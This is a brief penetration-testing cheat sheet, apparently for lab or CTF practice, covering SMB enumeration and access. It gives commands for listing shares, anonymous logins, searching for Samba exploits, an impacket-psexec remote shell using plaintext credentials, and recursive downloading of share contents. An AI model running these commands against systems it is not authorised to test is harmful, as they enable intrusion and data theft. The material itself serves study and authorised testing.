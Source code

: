 # Port 139/tcp AND 445/udp
## Stardard usage
 - smb (samba)
<hr>

#### List all share
```bash
smbmap -H $targetip
smbclient -L \\\\$targetip -U anonymous%anonymous
```

#### Guest user
```
anonymous:anonymous
```

#### Search for exploit
```bash
searchsploit samba 3.0
```

#### Access share that no required password
```bash
smbclient //10.129.95.187/share -U " "%" "
```

### Access share with user
```bash
smbclient \\\\$targetip\\C$ -U administrator
```

### Create reverse shell
```bash
impacket-psexec 'abcd:!passWord@10.129.32.122'
```

### Download whole directory
```bash
SMB:> mask ""
SMB:> recurse ON
SMB:> prompt OFF
SMB:> mget *
```